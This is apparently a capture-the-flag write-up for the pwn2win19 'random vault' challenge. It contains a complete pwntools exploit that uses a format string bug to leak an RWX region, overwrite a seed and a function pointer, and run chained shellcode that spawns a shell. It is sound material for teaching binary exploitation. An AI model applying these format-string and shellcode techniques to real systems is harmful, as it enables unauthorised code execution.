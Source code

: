 ```yaml
---
layout: post
title: pwn2win19 - random vault
date: 2019-11-19 00:00:00
categories: 
    - blog
tags:
    - ctf
    - linux
    - x64
    - format string
    - binary exploitation
---
```


### Sources

[https://github.com/fachrioktavian/ctf-writeup/tree/master/pwn2win19/randomvault](https://github.com/fachrioktavian/ctf-writeup/tree/master/pwn2win19/randomvault)

### Summary

This challenge is from pwn2win19 ctf. I didn't join the ctf. Solve this challenge by scraping for the binary in ctftime and solve it locally.

#### Overview

So the binary is a program which saves datas. The datas then being store on a memory with random address.

```terminal
❯ ./random_vault
Welcome to the Vault!
Username: blabla

=== VAULT ===
Hello, blabla

Actions:
1. Change username
2. Store secret
3. Reset vault
4. Quit

2
Secret #1: 1
Secret #2: 2
Secret #3: 3
Secret #4: 4
Secret #5: 5
Secret #6: 6
Secret #7: 7
You've stored the following secrets:
#1: 1, #2: 2, #3: 3, #4: 4, #5: 5, #6: 6, #7: 7
Keep secret? (y/n) y
Ok! Your data is SAFE.
```

#### The bugs

1. There is format string vulnerability exists on a function that's called to write down username.

    ```c
    unsigned __int64 __fastcall sub_1412(const char *global_buf)
    {
        unsigned __int64 v1; // ST18_8
        v1 = __readfsqword(0x28u);
        printf("Hello, ");
        sub_12BD(1, 2, 3, 4, 5, 6);
        printf(global_buf, 2LL); // format string
        puts(byte_2056);
        return __readfsqword(0x28u) ^ v1;
    }
    ```

#### Exploitation's Scenario

For the first time i thing this is just a straightforward format string challenge. Use the bug to leak some information and then overwrite some pointer to gain shell access, but there are some logic that make it hard to solve:

- we can only run the format string attack twice. First at the start while program runs, second is when we use `change username` function.

    ```c
    if ( qword_4020[a2] == 0x8161412171513111LL ) // check the value
    {
        printf("Username: ");
        fgets(global_buf, 81, stdin);
        global_buf[81] = 0;
        qword_4020[a2] = 0LL; // zeroed buf
    }
    ```

- username's buffer spaces are only 80 bytes so can only do arbitrary write approx 12 bytes using `%hn` format. It's difficult if we want to do multiple read and write at the same time.

The scenario will be:

1. Leaking a RWX regions as program places a function pointer and seed for `store secret`:

    ```c
    srand(seed);
    for ( i = 0; i <= 6; ++i )
    {
        printf("Secret #%d: ", (i + 1));
        v0 = rand();
        secret_array[i] = ((v0 >> 56) + v0) - ((v0 >> 31) >> 24);
        __isoc99_scanf("%llu", &unk_5010 + 8 * secret_array[i]);
    }
    ```

2. Overwriting seed's value to specific value so we can control where to store secret. And fortunately secrets are stored in RWX region, so we can execute it if we inject shellcode.

3. Overwriting function pointer at RWX region so it's pointing to the our shellcode.

### Exploitation

#### Helper

For cleaner exploit script, we use helper function.

```python
def init(r, cnt):
    r.recv()
    r.sendline(cnt)

def change_username(r, cnt):
    r.recv()
    r.sendline("1")
    r.recv()
    r.sendline(cnt)

def store_secret(r, s):
    r.recv()
    r.sendline("2")
    for d in s:
        r.recv()
        r.sendline(d)

r = process("./random_vault", aslr=1)
```

#### Stage 1. Leaking RWX region

Using format string vulnerability to leak the region that has RWX permission.

```python
pload_leak = "%p|"*11
init(r, pload_leak)
d = r.recvuntil("Actions:").split("|")
rwx = int(d[10], 16) + 0x38b0
seed = rwx + 0x8
```

#### Stage 2. Calculating address of secret

After overwriting seed's value to 1 later in stage 3, we can determine where our secret will be stored in memory using dynamic analysis through debugger. Later we will placed our shellcode in the secret variable and chains them with `jmp` instruction so it connects one another (like a linked-list). So to make the shellcode easier, order of shellcode in secret will be places from the lowest to higher memory.

```python
loc = [0x67, 0xc6, 0x69, 0x73, 0x51, 0xff, 0x4a] # shellcode order will be 7, 5, 1, 3, 4, 2, 6
sc_start = rwx + 0x10
sc_loc = []
for i in loc:
    sc_loc.append(sc_start+(8*i))
```

#### Stage 3. Overwriting function pointer and seed value

Using format string vulnerability, overwrite seed's value to 1 and function pointer to point to start of shellcode (secret no #7).

```python
entry = sc_loc[6] & 0xffff
seed_val = 1
z = "%{}c%29$n|%{}c|%30$hn".format(seed_val.__str__(), (entry-seed_val-2).__str__())
pload_z = z.ljust(40, 'A') + p64(seed) + p64(rwx)
change_username(r, pload_z)
```

#### Stage 4. Calculating secret value and storing secret

We build the shellcode to read from stdin and make program run our previous input shellcode from stdin that will call execve("/bin/sh").

```python
c = asm(shellcraft.linux.read('rax', 'rdx', 0x5000))

''' disasm(c)
0:   48 89 c7                mov    rdi,rax
3:   31 c0                   xor    eax,eax # ignored
5:   48 89 d6                mov    rsi,rdx
8:   31 d2                   xor    edx,edx
a:   b6 50                   mov    dh,0x50
c:   0f 05                   syscall
'''

sc_7 = c[0:3:] + "\xeb{}".format(chr(sc_loc[4] - sc_loc[6]- 5))
sc_7 = sc_7.ljust(8, "\x00")
sc_5 = c[5:10:] + "\xe9{}".format(chr(sc_loc[0] - sc_loc[4]- 5 - 5))
sc_5 = sc_5.ljust(8, "\x00")
sc_1 = c[0xa:0xe:] + "\xe9{}".format(chr(sc_loc[2] - sc_loc[0]- 5 - 5 - 6))
sc_1 = sc_1.ljust(8, "\x00")
secret = [str(u64(sc_1)), "0", "0", "0", str(u64(sc_5)), "0", str(u64(sc_7))]
store_secret(r, secret)
```

#### Stage 5. Sending shellcode

```python
s = asm(shellcraft.linux.sh())
r.sendline("B"*0xf1 + s)
```

#### Pwned

```terminal
❯ python solve.py
[+] Starting local process './random_vault': pid 15280
[*] Stage 1 > Leaking RWX region
[+]         > RWX region address: 0x55d1740e6000, seed address: 0x55d1740e6008
[*] Stage 2 > Calculating address of secret
[*] Stage 3 > Overwriting function pointer and seed value
[*] Stage 4 > Calculating secret value and storing secret
[*] Stage 5 > Sending shellcode
[+] Pwn!
[*] Switching to interactive mode
$ uname -a
Linux fokt 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
